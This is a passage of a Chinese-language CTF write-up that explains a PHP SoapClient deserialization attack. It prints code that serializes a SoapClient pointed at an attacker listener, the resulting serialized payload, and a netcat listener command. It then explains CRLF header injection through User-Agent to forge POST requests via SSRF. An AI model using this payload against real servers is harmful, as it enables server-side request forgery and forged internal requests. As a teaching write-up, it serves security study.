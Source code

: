 &emsp;&emsp;我们验证一下，写一个简单的发起soap请求。
```php
<?php
$a = new SoapClient(null, array('location' => "http://192.168.187.133:8887",
                                     'uri'      => "123"));
echo serialize($a);
?>
```

```php
O:10:"SoapClient":3:{s:3:"uri";s:3:"123";s:8:"location";s:27:"http://192.168.187.133:8887";s:13:"_soap_version";i:1;}
```
&emsp;&emsp;抓包修改后发送。
<div align="center">
    <img src="/images/posts/n1ctf/46.png" />  
</div>
&emsp;&emsp;在虚拟机中监听：`nc -lvv 8887`，再去刷新`?action=index`，就能看到服务器已经接收到`soap`请求。
<div align="center">
    <img src="/images/posts/n1ctf/45.png" width="60%" />  
</div>

### CRLF
&emsp;&emsp;现在我们已经触发了SSRF，但可以看到`SOAP`原始的数据是不符合`POST`请求的数据格式的，所以，我们要想办法控制`soap`请求使它符合`post`请求，从而实现我们的目的。

&emsp;&emsp;`soap`请求的`content/type`是text/xml; charset=utf‐8，我们没办法直接覆盖掉原本的content/type，而我们知道，要能通过$_POST获取数据，content/type要是`application/x‐www‐form‐urlencoded`才行。然后我们从SOAP的参数说明中知道：soap中是支持`User-Agent`的，并且在header里 User-Agent 是在 Content-Type 前面的，所以我们可以通过控制`User-Agent`来控制整个POST报文。
